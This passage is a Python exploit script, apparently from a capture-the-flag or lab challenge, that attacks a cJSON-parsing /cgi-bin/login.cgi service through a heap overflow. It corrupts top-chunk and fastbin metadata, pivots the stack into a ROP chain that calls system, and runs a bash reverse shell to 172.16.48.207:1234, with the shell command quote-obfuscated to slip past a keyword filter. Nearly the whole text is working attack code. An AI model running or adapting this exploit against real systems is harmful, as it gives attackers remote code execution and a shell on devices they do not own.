    0x1cf0090 ... 0x50 ...    cJSON_Object root     
    0x1cf00e0 ... 0x50 ...    cJSON_String data string
    0x1cf0130 ... 0x20 ...    strlen("data")
    0x1cf0150 ... 0x60 ...    strlen(data string)
    0x1cf01b0 ... 0x50 ...    cJSON_String  timestamp
    0x1cf0200 ... 0x20 ...    strlen("timestamp")
    0x1cf0220 ... 0x50 ...    cJSON_Array timestamp
    0x1cf0270 ... 0x20 ...    strlen("timestamp")
    '''
    # breakpoint()
    N, ret, calc_size = calc_array_pair_cnt(required_size, message_len)
    payload = b'1,' * N # 0x50 chunk
    # payload = payload.rstrip(b",")
    if ret == -1:
        payload += b'\x01' * (required_size - calc_size)
    # print("required_size {:#x} message_len {:#x} N {:#x} payload_len {:#x}".format(required_size, message_len, N, len(payload)))
    # print(b"payload: %b" % payload)
    return payload


def exp(host, port):
    io = remote(host, port, timeout = 9999)

    json_template = b'''
    {"data":"BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ","timestamp":61866,"timestamp":\x11[%b]}
    '''.strip()
    # print(json_template, len(json_template) - 2)
    template_len = len(json_template) - 2 + 1 # 2: %b, 1: content_length + 1
    top_chunk_size = 0x20e00 + 0x2000 # why 0x2000?

    raw_len = lambda x: len(get_raw_payload(x))

    # array_payload|overflow_old_top_chunk_payload|free_old_top_chunk_payload|overflow_new_top_chunk_payload|free_new_top_chunk_payload|overflow_fastbin_fd_payload|dummy_alloc_payload|hijack_payload

    overflow_old_top_chunk_payload =  b'"aaaaaaaaaaaaa\u"   '
    overflow_old_top_chunk_payload += b'0' * 8 # prev_size of old top_chunk
    overflow_old_top_chunk_payload += p16(0x41) # 0x1041 -> 0x41
    overflow_old_top_chunk_payload += b'"'
    overflow_old_top_chunk_payload += b',' # not end
    # print("overflow_old_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_old_top_chunk_payload), raw_len(overflow_old_top_chunk_payload)))


    # free_old_top_chunk_payload = b",1" # 0x50 chunk, we don't need this step because the next cJSON_String will do this happily

    overflow_new_top_chunk_payload =  b'"bbbbbbbbbbbbbbbbbbbbbbbbbbbbb\u"   '
    overflow_new_top_chunk_payload += b'1' * 8 # prev_size of new top_chunk
    overflow_new_top_chunk_payload += p8(0x61 + 0x50) + p16(0) # 0x0000000000021f81 -> 0x00000000000000b1, save bytes as much as possible
    overflow_new_top_chunk_payload += b'"'
    overflow_new_top_chunk_payload += b',' # not end
    # print("overflow_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_new_top_chunk_payload), raw_len(overflow_new_top_chunk_payload)))

    # malloc(0x60 - 0x10)
    free_new_top_chunk_payload =  b'"'
    free_new_top_chunk_payload += b'2' * 0x50
    free_new_top_chunk_payload += b'"'
    free_new_top_chunk_payload += b',' # not end
    # print("free_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(free_new_top_chunk_payload), raw_len(free_new_top_chunk_payload)))

    # reclaim small bin and overflow fastbin
    # for k in blacklist_dict:
    #     assert k not in shellcode, "invalid char {}:{} in shellcode".format(shellcode.find(k), k)

    # for k in [b"bash", b"flag", b"cat", b"tcp"]:
    #     assert k not in shellcode, "invalid sequence {} in shellcode".format(k)


    # assert len(shellcode) <= 0x1100 - 0x8
    overflow_fastbin_fd_payload =  b'"ccccccccccccc\u"   '
    overflow_fastbin_fd_payload += b'3' * (0x1100 - 0x8)
    overflow_fastbin_fd_payload += p64(0x41) # size of fastbin
    '''
    gdb-peda$ x/20gx 0x676020-8+2
    0x67601a:       0x51e8000000000000      0x51f0000000000045
    '''
    overflow_fastbin_fd_payload += p32(0x67601a) # fake fd, use p32 instead of p64 to save bytes
    overflow_fastbin_fd_payload += b'"'
    overflow_fastbin_fd_payload += b',' # not end
    # print("overflow_fastbin_fd_payload len {:#x}, raw_len {:#x}".format(len(overflow_fastbin_fd_payload), raw_len(overflow_fastbin_fd_payload)))

    dummy_alloc_payload =  b'"'
    dummy_alloc_payload += b'4' * 0x30
    dummy_alloc_payload += b'"'
    dummy_alloc_payload += b','
    # print("dummy_alloc_payload len {:#x}, raw_len {:#x}".format(len(dummy_alloc_payload), raw_len(dummy_alloc_payload)))


    '''
    gdb-peda$ x/5i 0x7fea5aabd050
   0x7fea5aabd050 <munmap>:     mov    eax,0xb
   0x7fea5aabd055 <munmap+5>:   syscall
   0x7fea5aabd057 <munmap+7>:   cmp    rax,0xfffffffffffff001
   0x7fea5aabd05d <munmap+13>:  jae    0x7fea5aabd060 <munmap+16>
   0x7fea5aabd05f <munmap+15>:  ret
    '''
    '''
    0x00000000004464e2, # xchg edx, ecx ; ret -> save heap pointer
    0x0000000000451151, # pop r8 ; mov dword ptr [rdx], eax ; xor eax, eax ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    0x0000000000401063, # pop rdx ; pop rbx ; pop rbp ; ret
    0x0000000000406862 : pop rsi ; ret
    0x0000000000404cb7 : pop rdi ; ret
    0x00000000004165af : add rax, rsi ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    '''
    ropchain = flat([
        0x0000000000450ab0, # mov rax, qword ptr [rdi + 0x28] ; ret
        0x0000000000406862, # pop rsi ; ret
        0xa0b0, # system - getenv
        0x00000000004165af, # add rax, rsi ; ret -> rax->system
        0x0000000000404cb7, # pop rdi ; ret
        0x6760c8, # cmd address
        0x0000000000408823, # add rsp, 0x328 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret -> sastisfy system
        b'x' * (0x328 + 6 * 8),
        0x000000000040853d, # call rax
    ])

    CMD = b"""bas'h' -i >& /dev/'t'cp/172.16.48.207/1234 0>&1;"""
    for k in [b'bash', b'flag', b'cat', b'tcp', b'"']:
        assert k not in CMD, "invalid sequence {} in CMD".format(k)

    # CMD = b"touch /tmp/test;"
    pivot_payload = flat({
        0x00: p64(0x4087F5), # .alloc -> disable je in .free gadget
        # .text:00000000004087F5 test    rsi, rsi
        # .text:00000000004087F8 jz      short loc_408801
        # .text:00000000004087F8
        # .text:00000000004087FA mov     rdi, [rbx+10h]
        # .text:00000000004087FE call    qword ptr [rbx+8]
        0x08: p64(0x00000000004381d3), # .free -> xchg eax, esp ; je 0x43901d ; add rsp, 0xe8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        0x10: p64(0x675ec8 - 0x28), # getenv@got - 0x28
        0x18: CMD,
        0x118: ropchain
    })

    hijack_payload =  b'"ddddddddddddddddddddddddddddddddddddddd\u"   '
    hijack_payload += b'e' * 0x5c
    hijack_payload += pivot_payload
    hijack_payload += b'"'
    # hijack_payload += b','
    # print("hijack_payload len {:#x}, raw_len {:#x}".format(len(hijack_payload), raw_len(hijack_payload)))


    # print("message len {:#x}".format(template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)))

    array_payload = generate_array_payload(top_chunk_size - 0x1040 - 0x50 - 0x20, template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)) 

    payload =  array_payload
    payload += overflow_old_top_chunk_payload
    payload += overflow_new_top_chunk_payload
    payload += free_new_top_chunk_payload
    payload += overflow_fastbin_fd_payload
    payload += dummy_alloc_payload
    payload += hijack_payload

    http_body = json_template % get_raw_payload(payload)
    write("exp_data", http_body)

    http_template = b'''
POST /cgi-bin/login.cgi HTTP/1.1\r
Host: %s:%d\r
Content-Type: application/json\r
Content-Length: %d\r
\r
%s
'''.strip()
    # print(http_template)

    http_message = http_template % (host, port, len(http_body), http_body)

    io.send(http_message)

    io.interactive()

if __name__ == "__main__":
    host = b"192.168.64.135"
    port = 8080

    exp(host, port)
```
